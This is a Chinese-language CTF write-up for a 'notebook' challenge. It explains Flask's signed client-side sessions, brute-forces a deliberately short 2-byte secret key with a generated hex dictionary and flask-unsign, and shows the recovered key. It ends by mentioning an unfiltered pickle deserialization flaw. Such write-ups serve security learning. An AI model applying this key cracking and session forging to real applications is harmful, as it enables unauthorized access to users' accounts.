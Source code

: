 ## Week 3

### notebook

https://www.leavesongs.com/PENETRATION/client-session-security.html

首先得知道 flask 的 session 信息存储在 cookie 中, 因此这种 session 也被称作 "客户端 session"

而 session 要想保证不被恶意修改, 就会使用一个 secret key 进行签名

注意 "签名" 不等于 "加密", 我们其实仍然能够看到 session 中存储的信息, 但是无法修改它, 这一点和 JWT (JSON Web Token) 类似

题目中的 secret key

```python
app.config['SECRET_KEY'] = os.urandom(2).hex()
```

这里留了个随机数主要是让大家关注随机数的长度, 如果这个长度过小, 那么很容易就能爆破出来

一部分人可能不知道它长度是多少, 这个其实放到 python 里面运行一下就知道了, 只有 4 位

然后因为是 hex, 所以只会出现 `0123456789abcdef` 这些字符

先手动生成一个四位数字典

```python
import itertools

d = itertools.product('0123456789abcdef', repeat=4)

with open('dicts.txt', 'w') as f:
    for i in d:
        s = ''.join(i)
        f.write(s + '\n')
```

然后找一些现成的工具

https://github.com/noraj/flask-session-cookie-manager

https://github.com/Paradoxis/Flask-Unsign

以 flask-unsign 为例

```bash
flask-unsign -u -c 'eyJub3RlcyI6e319.ZRaiVg.28tEyvEpXfcjFl5rrQ7K_nkl208' -w dicts.txt --no
-literal-eval
```

结果

```bash
[*] Session decodes to: {'notes': {}}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 30208 attempts
b'75c5'
```

然后是个简单的 pickle 反序列化漏洞, 没有任何过滤
